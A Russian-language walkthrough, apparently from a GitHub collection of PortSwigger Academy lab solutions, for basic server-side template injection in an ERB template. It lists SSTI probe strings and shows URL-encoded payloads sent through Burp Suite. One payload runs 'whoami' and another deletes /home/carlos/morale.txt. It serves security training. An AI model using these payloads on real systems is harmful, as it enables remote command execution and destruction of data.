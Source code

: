 Перейдем на уязвимый ресурс 

и попробуем получим информацию о любом из товаров, и получаем надпись `Unfortunately this product is out of stock`

Перейдем в `Proxy` -> `HTTP history` и найдем запрос 
```
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock 
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/1.%20Basic%20server-side%20template%20injection/pics%20for%20walkthrough/1.png)

Оправим данный запрос в `intruder`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/1.%20Basic%20server-side%20template%20injection/pics%20for%20walkthrough/2.png)

Далее попробуем посмотреть на ответы на пул SSTI, которые могут свидетельствовать о ее наличии. пул кстати, вот
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

и в` Grep - Extract` выберем те `<div>` в которых мы ожидаем увидеть результат выполнения атаки
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/1.%20Basic%20server-side%20template%20injection/pics%20for%20walkthrough/3.png)

запустим

и увидим, что именно с `%3c%%3d%207%2a7%20%%3e` (это в URL кодировке `<%= 7*7 %>`) будет число `49`, что будет означать успешную эксплуатацию SSTI

Отправим оргинальный запрос в `Repeater` и попробуем узнать имя пользователя под которым работает ресурс
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/1.%20Basic%20server-side%20template%20injection/pics%20for%20walkthrough/4.png)

Но сначала давайте перейдем в Decoder и сконфигурируем необходимый пэйлоад для SSTI
```
<%= system("whoami") %>
```
Выберем `Encode as URL` и получим
```
%3c%25%3d%20%73%79%73%74%65%6d%28%22%77%68%6f%61%6d%69%22%29%20%25%3e
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/1.%20Basic%20server-side%20template%20injection/pics%20for%20walkthrough/5.png)
и вставим результат как
```
GET /?message=%3c%25%3d%20%73%79%73%74%65%6d%28%22%77%68%6f%61%6d%69%22%29%20%25%3e
```
и увидим, что мы находимся под УЗ `carlos`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/1.%20Basic%20server-side%20template%20injection/pics%20for%20walkthrough/6.png)

Аналогично с прошлым шагов вернемся в Decoder и изменим пэйлоад на 
```
<%= system("rm /home/carlos/morale.txt") %>
```
и в Repeater передадим значение 
```
GET /?message=%3c%25%3d%20%73%79%73%74%65%6d%28%22%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%22%29%20%25%3e 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/22.%20Server-side%20template%20injection%20(SSTI)/1.%20Basic%20server-side%20template%20injection/pics%20for%20walkthrough/7.png)

и получим уведомление об успешно выполненной лабораторной работе
